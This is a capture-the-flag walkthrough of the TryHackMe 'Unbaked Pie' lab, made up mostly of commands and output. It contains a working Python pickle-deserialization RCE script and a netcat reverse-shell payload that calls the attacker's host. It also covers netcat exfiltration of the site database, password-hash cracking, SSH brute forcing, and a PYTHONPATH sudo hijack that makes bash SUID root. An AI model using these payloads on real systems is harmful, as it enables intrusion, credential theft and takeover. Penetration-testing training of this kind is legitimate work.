

# TryHackMe-Unbaked Pie

**Scope:**

- Python Deserialization
- PYTHONPATH
- Port Tunneling

**Keywords:**

- Python Deserialization
- Bash History
- SQLite Database Enumeration
- sqlite3
- Hash Cracking
- Port Tunneling for SSH
- chisel
- Login Brute Force
- SSH Keygen
- PYTHONPATH
- SETENV
- Netcat File Transfer

Main Commands:

- `nmap -sSVC -T4 -A -O -oN nmap_result.txt -p- -Pn --min-rate 1000 --max-retries 3 $target_ip`
- `echo 'gASVBwAAAAAAAACMA3BpZZQu' | base64 -d | sed 's/\x00/ /g'`
- `sudo tcpdump -i tun0 icmp`
- `nc -l -p 11342 > db.sqlite3`
- `sqlite3 db.sqlite3`
- `hashcat -a0 -m 10000 userhashes.txt /usr/share/wordlists/rockyou.txt`
- `sudo chisel server -p 1880 --reverse`
- `hydra -l ramsey -P /usr/share/wordlists/rockyou.txt -f -e ns -t 50 ssh://localhost`
- `ssh ramsey@localhost -p 22`

**System Commands:**

- `find / -type f -perm -u=s -user oliver -ls 2>/dev/null`
- `find / -writable 2>/dev/null`
- `sudo -l`
- `sudo -u root PYTHONPATH=/home/oliver /usr/bin/python /opt/dockerScript.py`
- `/bin/bash -p`
- `ssh -i oliver oliver@unbaked`
- `ssh-keygen -f oliver`
- `getcap -r / 2>/dev/null`
- `getent group ramsey`
- `./chisel client 10.2.37.37:1880 R:22:172.17.0.1:22`
- `nc -w 3 10.2.37.37 11342 < db.sqlite3`
- `nc -zv 172.17.0.1 1-6000`
- `ps -aux`
- `ss -tulwn`
- `for i in {1..254} ;do (ping -c 1 172.17.0.$i | grep "bytes from" &) ;done`
- `SHELL=/bin/bash script -q /dev/null`
- `export TERM=xterm`

### Laboratory Environment

[Unbaked Pie](https://tryhackme.com/r/room/unbakedpie)

### Penetration Approaches and Commands

> **Network Enumeration Phase**
> 

`nmap -sSVC -T4 -A -O -oN nmap_result.txt -p- -Pn --min-rate 1000 --max-retries 3 $target_ip`

```powershell
PORT     STATE SERVICE    VERSION
5003/tcp open  filemaker?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Date: Sun, 29 Dec 2024 07:40:37 GMT
|     Server: WSGIServer/0.2 CPython/3.8.6
|     Content-Type: text/html; charset=utf-8
|     X-Frame-Options: DENY
|     Vary: Cookie
|     Content-Length: 7453
|     X-Content-Type-Options: nosniff
|     Referrer-Policy: same-origin
|     Set-Cookie: csrftoken=hNouNS9PReKYlLapU6Ypnhkkw7vHLUOW7gk9ijviQoukoX8zO6XSOa4UqVL4SjkC; expires=Sun, 28 Dec 2025 07:40:37 GMT; Max-Age=31449600; Path=/; SameSite=Lax
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
|     <meta name="description" content="">
|     <meta name="author" content="">
|     <title>[Un]baked | /</title>
|     <!-- Bootstrap core CSS -->
|     <link href="/static/vendor/bootstrap/css/bootstrap.min.css" rel="stylesheet">
|     <!-- Custom fonts for this template -->
|     <link href="/static/vendor/fontawesome-free/css/all.min.cs
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     Date: Sun, 29 Dec 2024 07:40:40 GMT
|     Server: WSGIServer/0.2 CPython/3.8.6
|     Content-Type: text/html; charset=utf-8
|     X-Frame-Options: DENY
|     Vary: Cookie
|     Content-Length: 7453
|     X-Content-Type-Options: nosniff
|     Referrer-Policy: same-origin
|     Set-Cookie: csrftoken=XkvxE4ofRbdAnRgVQx0BMkzmUNEySpKNdpshDVqA2YDwAqRFlUw5o7JDNpJSdOai; expires=Sun, 28 Dec 2025 07:40:40 GMT; Max-Age=31449600; Path=/; SameSite=Lax
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
|     <meta name="description" content="">
|     <meta name="author" content="">
|     <title>[Un]baked | /</title>
|     <!-- Bootstrap core CSS -->
|     <link href="/static/vendor/bootstrap/css/bootstrap.min.css" rel="stylesheet">
|     <!-- Custom fonts for this template -->
|_    <link href="/static/vendor/fontawesome-free/css/all.min.cs
```

> **HTTP Port Check**
> 

`curl -iLX GET -D response.txt http://unbaked.thm:5003`

```powershell
HTTP/1.1 200 OK
Date: Sun, 29 Dec 2024 07:39:04 GMT
Server: WSGIServer/0.2 CPython/3.8.6
Content-Type: text/html; charset=utf-8
X-Frame-Options: DENY
Vary: Cookie
Content-Length: 7453
X-Content-Type-Options: nosniff
Referrer-Policy: same-origin
Set-Cookie:  csrftoken=QtorNzez5SlulpDmNsK58b3SloIrSHgf6qPwRnDkvygQEBVR14OoTgsOlotD2cfE; expires=Sun, 28 Dec 2025 07:39:04 GMT; Max-Age=31449600; Path=/; SameSite=Lax

[REDACTED] - MORE
```



> **Internal Logic Discovery Phase**
> 


**PAYLOADS:**

```powershell
Set-Cookie:  search_cookie=gASVBwAAAAAAAACMA3BpZZQu; Path=/

csrfmiddlewaretoken=Bz4Xr3p0DcRQaRjYiW9xnj5cLIttgtEnuZvHiGAKhUjsgzmch5yeFYJYC0rrXPOA&query=pie
```

`curl --path-as-is -iskLX $'POST' -H $'Content-Type: application/x-www-form-urlencoded' -b $'csrftoken=iHHU97pTWDN9LZNy8W6ajxDg8JaZYS7Xb78E0KADAlfLRHQM75vRBch2Z18XFeha' --data-binary $'csrfmiddlewaretoken=Bz4Xr3p0DcRQaRjYiW9xnj5cLIttgtEnuZvHiGAKhUjsgzmch5yeFYJYC0rrXPOA&query=pie' $'http://unbaked.thm:5003/search'`

```powershell
HTTP/1.1 200 OK
Date: Sun, 29 Dec 2024 07:47:39 GMT
Server: WSGIServer/0.2 CPython/3.8.6
Content-Type: text/html; charset=utf-8
X-Frame-Options: DENY
Vary: Cookie
Content-Length: 6857
X-Content-Type-Options: nosniff
Referrer-Policy: same-origin
Set-Cookie:  search_cookie=gASVBwAAAAAAAACMA3BpZZQu; Path=/
Set-Cookie:  csrftoken=iHHU97pTWDN9LZNy8W6ajxDg8JaZYS7Xb78E0KADAlfLRHQM75vRBch2Z18XFeha; expires=Sun, 28 Dec 2025 07:47:39 GMT; Max-Age=31449600; Path=/; SameSite=Lax

[REDACTED] - MORE
```

> **Python Deserialization Phase**
> 

`echo 'gASVBwAAAAAAAACMA3BpZZQu' | base64 -d | sed 's/\x00/ /g'`

```powershell
��       �pie�
```

`sudo tcpdump -i tun0 icmp`

```powershell
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
```

`nano compser.py`

```powershell
import pickle
import base64
import os
import requests
import sys

command = ""

class RCE:
    def __reduce__(self):
        cmd = (command)
        return os.system, (cmd,)

if __name__ == '__main__':
    command = sys.argv[1]
    pickled = pickle.dumps(RCE())
    cookie = base64.urlsafe_b64encode(pickled).decode('utf-8')
    url = "http://unbaked.thm:5003/"
    s = requests.Session()

    # 0 dummy post to get session
    s.get(url)

    # 1 post with cookie
    s.cookies.set('search_cookie',cookie)
    r = s.get(url+'search')

    # 2 read reply
    r = requests.get(url)
    print (r.content.decode('utf-8'))
```

`python3 compser.py 'ping -c 1 10.2.37.37'`

```powershell
03:18:36.891184 IP unbaked.thm > 10.2.37.37: ICMP echo request, id 71, seq 1, length 64
03:18:36.891229 IP 10.2.37.37 > unbaked.thm: ICMP echo reply, id 71, seq 1, length 64
```

> **Reverse Shell Phase**
> 

`nc -nlvp 10222`

```powershell
listening on [any] 10222 ...
```

**PAYLOAD:**

```powershell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.2.37.37 10222 >/tmp/f
```

`python3 compser.py 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.2.37.37 10222 >/tmp/f'`

```powershell
listening on [any] 10222 ...
connect to [10.2.37.37] from (UNKNOWN) [10.10.192.181] 36328
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
# pwd
/home
# SHELL=/bin/bash script -q /dev/null
root@8b39a559b296:/home# export TERM=xterm

root@8b39a559b296:/home# uname -a
Linux 8b39a559b296 4.4.0-186-generic #216-Ubuntu SMP Wed Jul 1 05:34:05 UTC 2020 x86_64 GNU/Linux
root@8b39a559b296:/home# dpkg --version
Debian 'dpkg' package management program version 1.19.7 (amd64).
This is free software; see the GNU General Public License version 2 or
later for copying conditions. There is NO warranty.

root@8b39a559b296:/home# ls -lsa /home
total 28
4 drwxr-xr-x 1 root root 4096 Oct  3  2020 .
4 drwxr-xr-x 1 root root 4096 Oct  3  2020 ..
4 drwxrwxr-x 8 root root 4096 Oct  3  2020 .git
4 drwxrwxr-x 2 root root 4096 Oct  3  2020 .vscode
4 -rwxrwxr-x 1 root root   95 Oct  3  2020 requirements.sh
4 -rwxrwxr-x 1 root root   46 Oct  3  2020 run.sh
4 drwxrwxr-x 1 root root 4096 Oct  3  2020 site
root@8b39a559b296:/home# cat /etc/passwd | grep '/bin/bash'
root:x:0:0:root:/root:/bin/bash

root@8b39a559b296:/home# cd ~
root@8b39a559b296:~# ls -lsa
total 36
4 drwx------ 1 root root 4096 Oct  3  2020 .
4 drwxr-xr-x 1 root root 4096 Oct  3  2020 ..
4 -rw------- 1 root root  889 Oct  6  2020 .bash_history
4 -rw-r--r-- 1 root root  570 Jan 31  2010 .bashrc
4 drwxr-xr-x 3 root root 4096 Oct  3  2020 .cache
4 drwxr-xr-x 3 root root 4096 Oct  3  2020 .local
4 -rw-r--r-- 1 root root  148 Aug 17  2015 .profile
0 -rw------- 1 root root    0 Sep 24  2020 .python_history
4 drwx------ 2 root root 4096 Oct  3  2020 .ssh
4 -rw-r--r-- 1 root root  254 Oct  3  2020 .wget-hsts

root@8b39a559b296:~# 
```

> **Internal System Investigation Phase**
> 

```powershell
root@8b39a559b296:~# ss -tulwn
Netid   State    Recv-Q   Send-Q     Local Address:Port     Peer Address:Port   
tcp     LISTEN   0        10               0.0.0.0:5003          0.0.0.0:*   
   
root@8b39a559b296:~# ps -aux
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root         1  0.0  0.0   2384   696 ?        Ss   07:22   0:00 sh ./run.sh
root         6  0.0  3.4  42872 34884 ?        S    07:23   0:01 python3 site/ma
root         8  0.8  4.3 633968 44596 ?        Sl   07:23   0:32 /usr/local/bin/
root        78  0.0  0.0   2384   692 ?        S    08:24   0:00 sh -c rm /tmp/f
root        81  0.0  0.0   4184   680 ?        S    08:24   0:00 cat /tmp/f
root        82  0.0  0.0   2384   752 ?        S    08:24   0:00 /bin/sh -i
root        83  0.0  0.1   2368  1824 ?        S    08:24   0:00 nc 10.2.37.37 1
root        86  0.0  0.2   4340  2120 ?        S    08:24   0:00 script -q /dev/
root        87  0.0  0.3   5748  3600 pts/0    Ss   08:24   0:00 bash -i
root        99  0.0  0.2   9388  3024 pts/0    R+   08:27   0:00 ps -aux

root@8b39a559b296:~# cat .bash_history
nc
exit
ifconfig
ip addr
ssh 172.17.0.1
ssh 172.17.0.2
exit
ssh ramsey@172.17.0.1
exit
cd /tmp
wget https://raw.githubusercontent.com/moby/moby/master/contrib/check-config.sh
chmod +x check-config.sh
./check-config.sh 
nano /etc/default/grub
vi /etc/default/grub
apt install vi
apt update
apt install vi
apt install vim
apt install nano
nano /etc/default/grub
grub-update
apt install grub-update
apt-get install --reinstall grub
grub-update
exit
ssh ramsey@172.17.0.1
exit
ssh ramsey@172.17.0.1
exit
ls
cd site/
ls
cd bakery/
ls
nano settings.py 
exit
ls
cd site/
ls
cd bakery/
nano settings.py 
exit
apt remove --purge ssh
ssh
apt remove --purge autoremove open-ssh*
apt remove --purge autoremove openssh=*
apt remove --purge autoremove openssh-*
ssh
apt autoremove openssh-client
clear
ssh
ssh
ssh
exit

root@8b39a559b296:~# curl -iX GET 172.17.0.1
curl: (7) Failed to connect to 172.17.0.1 port 80: Connection refused

root@8b39a559b296:~# ping -c 1 172.17.0.1
PING 172.17.0.1 (172.17.0.1) 56(84) bytes of data.
64 bytes from 172.17.0.1: icmp_seq=1 ttl=64 time=0.046 ms

--- 172.17.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.046/0.046/0.046/0.000 ms

root@8b39a559b296:~# nc -zv 172.17.0.1 1-6000
ip-172-17-0-1.eu-west-1.compute.internal [172.17.0.1] 5003 (?) open
ip-172-17-0-1.eu-west-1.compute.internal [172.17.0.1] 22 (ssh) open

root@8b39a559b296:~# for i in {1..254} ;do (ping -c 1 172.17.0.$i | grep "bytes from" &) ;done
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.032 ms
64 bytes from 172.17.0.1: icmp_seq=1 ttl=64 time=0.038 ms

root@8b39a559b296:~# cd /home/site
root@8b39a559b296:/home/site# ls -lsa
total 184
  4 drwxrwxr-x 1 root root   4096 Oct  3  2020 .
  4 drwxr-xr-x 1 root root   4096 Oct  3  2020 ..
  4 drwxrwxr-x 1 root root   4096 Oct  3  2020 account
  4 drwxrwxr-x 8 root root   4096 Oct  3  2020 assets
  4 drwxrwxr-x 1 root root   4096 Oct  3  2020 bakery
148 -rw-r--r-- 1 root root 151552 Oct  3  2020 db.sqlite3
  4 drwxrwxr-x 1 root root   4096 Oct  3  2020 homepage
  4 -rwxrwxr-x 1 root root    662 Oct  3  2020 manage.py
  4 drwxrwxr-x 2 root root   4096 Oct  3  2020 media
  4 drwxrwxr-x 3 root root   4096 Oct  3  2020 templates
  
root@8b39a559b296:/home/site# 
```

`nc -l -p 11342 > db.sqlite3`

```powershell
root@8b39a559b296:/home/site# nc -w 3 10.2.37.37 11342 < db.sqlite3
root@8b39a559b296:/home/site#
```

> **SQLite Database Enumeration Phase**
> 

`sqlite3 db.sqlite3`

```powershell
sqlite> .tables
auth_group                  django_admin_log          
auth_group_permissions      django_content_type       
auth_permission             django_migrations         
auth_user                   django_session            
auth_user_groups            homepage_article          
auth_user_user_permissions

sqlite>  select * from auth_user;
1|pbkdf2_sha256$216000$3fIfQIweKGJy$xFHY3JKtPDdn/AktNbAwFKMQnBlrXnJyU04GElJKxEo=|2020-10-03 10:43:47.229292|1|aniqfakhrul|||1|1|2020-10-02 04:50:52.424582|
11|pbkdf2_sha256$216000$0qA6zNH62sfo$8ozYcSpOaUpbjPJz82yZRD26ZHgaZT8nKWX+CU0OfRg=|2020-10-02 10:16:45.805533|0|testing|||0|1|2020-10-02 10:16:45.686339|
12|pbkdf2_sha256$216000$hyUSJhGMRWCz$vZzXiysi8upGO/DlQy+w6mRHf4scq8FMnc1pWufS+Ik=|2020-10-03 10:44:10.758867|0|ramsey|||0|1|2020-10-02 14:42:44.388799|
13|pbkdf2_sha256$216000$Em73rE2NCRmU$QtK5Tp9+KKoP00/QV4qhF3TWIi8Ca2q5gFCUdjqw8iE=|2020-10-02 14:42:59.192571|0|oliver|||0|1|2020-10-02 14:42:59.113998|
14|pbkdf2_sha256$216000$oFgeDrdOtvBf$ssR/aID947L0jGSXRrPXTGcYX7UkEBqWBzC+Q2Uq+GY=|2020-10-02 14:43:15.187554|0|wan|||0|1|2020-10-02 14:43:15.102863|

sqlite> 
```

> **Hash Cracking Phase**
> 

`nano userhashes.txt`

```powershell
pbkdf2_sha256$216000$3fIfQIweKGJy$xFHY3JKtPDdn/AktNbAwFKMQnBlrXnJyU04GElJKxEo=
pbkdf2_sha256$216000$0qA6zNH62sfo$8ozYcSpOaUpbjPJz82yZRD26ZHgaZT8nKWX+CU0OfRg=
pbkdf2_sha256$216000$hyUSJhGMRWCz$vZzXiysi8upGO/DlQy+w6mRHf4scq8FMnc1pWufS+Ik=
pbkdf2_sha256$216000$Em73rE2NCRmU$QtK5Tp9+KKoP00/QV4qhF3TWIi8Ca2q5gFCUdjqw8iE=
pbkdf2_sha256$216000$oFgeDrdOtvBf$ssR/aID947L0jGSXRrPXTGcYX7UkEBqWBzC+Q2Uq+GY=
```

`hashcat -a0 -m 10000 userhashes.txt /usr/share/wordlists/rockyou.txt`

```powershell
testing:lala12345
```

> **Port Tunneling for SSH & Login Brute Force Phase**
> 

`curl https://i.jpillora.com/chisel! | bash`

```powershell
######################################################################## 100.0%
Installed at /usr/local/bin/chisel
```

**For source:**

[https://github.com/jpillora/chisel](https://github.com/jpillora/chisel)

`cp /usr/local/bin/chisel .`

`python3 -m http.server 8000`

```powershell
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

```powershell
root@8b39a559b296:/home/site# cd /tmp
root@8b39a559b296:/tmp# wget http://10.2.37.37:8000/chisel
chisel              100%[===================>]   8.94M  1.39MB/s    in 10s     

2024-12-29 09:07:41 (898 KB/s) - ‘chisel’ saved [9371800/9371800]

root@8b39a559b296:/tmp#
```

`sudo chisel server -p 1880 --reverse`

```powershell
2024/12/29 04:11:18 server: Listening on http://0.0.0.0:1880
```

```powershell
root@8b39a559b296:/tmp# chmod +x chisel
root@8b39a559b296:/tmp# ./chisel client 10.2.37.37:1880 R:22:172.17.0.1:22

2024/12/29 09:09:10 client: Connecting to ws://10.2.37.37:1880
2024/12/29 09:09:13 client: Connected (Latency 319.824664ms)

```

`hydra -l ramsey -P /usr/share/wordlists/rockyou.txt -f -e ns -t 50 ssh://localhost`

```powershell
[22][ssh] host: localhost   login: ramsey   password: 12345678
```

> **SSH Connection Phase**
> 

`ssh ramsey@localhost -p 22`

```powershell
ramsey@localhost's password: 12345678

Last login: Tue Oct  6 22:39:31 2020 from 172.17.0.2

ramsey@unbaked:~$ whoami
ramsey
ramsey@unbaked:~$ id
uid=1001(ramsey) gid=1001(ramsey) groups=1001(ramsey)
ramsey@unbaked:~$ groups
ramsey
ramsey@unbaked:~$ getent group ramsey
ramsey:x:1001:
ramsey@unbaked:~$ ls -lsa /home
total 16
4 drwxr-xr-x  4 root   root   4096 Oct  3  2020 .
4 drwxr-xr-x 23 root   root   4096 Oct  3  2020 ..
4 drwxr-xr-x  3 oliver oliver 4096 Oct  3  2020 oliver
4 drwxr-xr-x  5 ramsey ramsey 4096 Oct  6  2020 ramsey
ramsey@unbaked:~$ ls -lsa
total 48
4 drwxr-xr-x 5 ramsey ramsey 4096 Oct  6  2020 .
4 drwxr-xr-x 4 root   root   4096 Oct  3  2020 ..
4 -rw------- 1 root   root      1 Oct  5  2020 .bash_history
4 -rw-r--r-- 1 ramsey ramsey 3771 Oct  3  2020 .bashrc
4 drwx------ 3 ramsey ramsey 4096 Oct  3  2020 .cache
4 drwx------ 4 ramsey ramsey 4096 Oct  3  2020 .local
4 drwxrwxr-x 2 ramsey ramsey 4096 Oct  3  2020 .nano
4 -rwxrw-r-- 1 ramsey ramsey 1645 Oct  3  2020 payload.png
4 -rw-r--r-- 1 ramsey ramsey  655 Oct  3  2020 .profile
4 -rw-r--r-- 1 root   root     38 Oct  6  2020 user.txt
8 -rw-r--r-- 1 root   ramsey 4369 Oct  3  2020 vuln.py

ramsey@unbaked:~$

```

> **Switch User with Internal Logic**
> 

```powershell
ramsey@unbaked:~$ cat /etc/crontab

# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#

ramsey@unbaked:~$ sudo -l
[sudo] password for ramsey: 
Matching Defaults entries for ramsey on unbaked:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User ramsey may run the following commands on unbaked:
    (oliver) /usr/bin/python /home/ramsey/vuln.py

ramsey@unbaked:~$ getcap -r / 2>/dev/null 
/usr/bin/systemd-detect-virt = cap_dac_override,cap_sys_ptrace+ep
/usr/bin/mtr = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep

ramsey@unbaked:~$ ls -lsa /home/ramsey/vuln.py
8 -rw-r--r-- 1 root ramsey 4369 Oct  3  2020 /home/ramsey/vuln.py

ramsey@unbaked:~$ ssh-keygen -f oliver
Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in oliver.
Your public key has been saved in oliver.pub.
The key fingerprint is:
SHA256:zccpve3YN3moJLYeLENaXLL+EEXq/iJy2eGZ/RQhCJM ramsey@unbaked
The key's randomart image is:
+---[RSA 2048]----+
|      o.  .      |
|      Eo +       |
|        + + .    |
|       o B + o   |
|        S + *    |
|       *.o o +   |
|      .+*== + ...|
|    . + *B.* +.oo|
|     o . o=.+.o.o|
+----[SHA256]-----+

ramsey@unbaked:~$ mv vuln.py vuln.bak
ramsey@unbaked:~$ nano vuln.py

import os
os.system('mkdir /home/oliver/.ssh')
os.system('cp /home/ramsey/oliver.pub /home/oliver/.ssh/authorized_keys')

ramsey@unbaked:~$ sudo -u oliver /usr/bin/python /home/ramsey/vuln.py
ramsey@unbaked:~$ chmod 600 oliver

ramsey@unbaked:~$ ssh -i oliver oliver@unbaked

oliver@unbaked:~$ whoami
oliver
oliver@unbaked:~$ id
uid=1002(oliver) gid=1002(oliver) groups=1002(oliver),1003(sysadmin)
oliver@unbaked:~$ pwd
/home/oliver
oliver@unbaked:~$ 
```

> **Privilege Escalation with Internal Logic & PYTHONPATH with SETENV Phase**
> 

```powershell
oliver@unbaked:~$ groups
oliver sysadmin
oliver@unbaked:~$ getent group sysadmin
sysadmin:x:1003:oliver
oliver@unbaked:~$ find / -type f -perm -u=s -user oliver -ls 2>/dev/null
oliver@unbaked:~$ find / -writable 2>/dev/null
/home/oliver
/home/oliver/.ssh
/home/oliver/.ssh/authorized_keys
/home/oliver/.cache
/home/oliver/.cache/motd.legal-displayed
/home/oliver/.nano
/home/oliver/.bashrc
/home/oliver/.profile

oliver@unbaked:~$ sudo -l
Matching Defaults entries for oliver on unbaked:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User oliver may run the following commands on unbaked:
    (root) SETENV: NOPASSWD: /usr/bin/python /opt/dockerScript.py
    
oliver@unbaked:~$ cat /opt/dockerScript.py
import docker

# oliver, make sure to restart docker if it crashes or anything happened.
# i havent setup swap memory for it
# it is still in development, please dont let it live yet!!!
client = docker.from_env()
client.containers.run("python-django:latest", "sleep infinity", detach=True)

oliver@unbaked:~$ nano docker.py

import os

os.system('chmod 4777 /bin/bash')

oliver@unbaked:~$ sudo -u root PYTHONPATH=/home/oliver /usr/bin/python /opt/dockerScript.py
Traceback (most recent call last):
  File "/opt/dockerScript.py", line 6, in <module>
    client = docker.from_env()
AttributeError: 'module' object has no attribute 'from_env'

oliver@unbaked:~$ ls -lsa /bin/bash
1016 -rwsrwxrwx 1 root root 1037528 Jul 13  2019 /bin/bash

oliver@unbaked:~$ /bin/bash -p
bash-4.3# whoami
root
bash-4.3# id
uid=1002(oliver) gid=1002(oliver) euid=0(root) groups=1002(oliver),1003(sysadmin)
bash-4.3# pwd
/home/oliver
bash-4.3# 

```